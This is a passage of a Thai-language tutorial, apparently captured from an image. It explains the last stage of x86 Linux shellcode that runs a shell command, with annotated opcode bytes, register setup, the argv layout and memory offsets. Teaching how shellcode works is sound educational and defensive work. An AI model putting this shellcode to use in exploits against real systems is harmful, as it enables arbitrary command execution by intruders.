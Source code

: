 ### ส่วนที่ 4: เรียก System Call
```assembly
\x8d\x4b\x48 # lea 0x48(%ebx),%ecx # ecx = pointer to argv array
\x31\xd2     # xor %edx,%edx       # edx = NULL (envp)
\x31\xc0     # xor %eax,%eax       # clear eax
\xb0\x0b     # mov $0xb,%al        # eax = 11 (sys_execve)
\xcd\x80     # int $0x80           # เรียก system call
```

## 3. การทำงานของ System Call

### Parameters สำหรับ execve():
- **EAX = 11**: เลข system call สำหรับ `execve()`
- **EBX**: pointer ไปยัง filename ("/bin/bash")
- **ECX**: pointer ไปยัง argv array
- **EDX**: pointer ไปยัง envp (NULL)

### Argv Array ที่สร้างขึ้น:
```c
argv[0] = "/bin/bash"
argv[1] = "-c"
argv[2] = "คำสั่งที่จะรัน"
argv[3] = NULL
```

### ผลลัพธ์:
```bash
execve("/bin/bash", ["/bin/bash", "-c", "คำสั่งของคุณ"], NULL);
```

## 4. Memory Layout

```
Address     Content
-------     -------
ebx+0       "/bin/bash\x00"         (9 bytes + null)
ebx+10      "-c\x00"                (2 bytes + null)  
ebx+13      "command string\x00"    (ความยาวตามคำสั่ง + null)
...
ebx+72      [pointer to "/bin/bash"] (argv[0])
ebx+76      [pointer to "-c"]        (argv[1])
ebx+80      [pointer to command]     (argv[2]) 
ebx+84      [NULL]                   (argv[3])
```

## 5. ข้อสำคัญในการแก้ไข

### Position Markers:
- `*` ในแต่ละสตริงจะถูกแทนที่ด้วย `\x00` (null terminator)
- ตำแหน่งของ `*` ต้องตรงกับ offset ใน assembly code
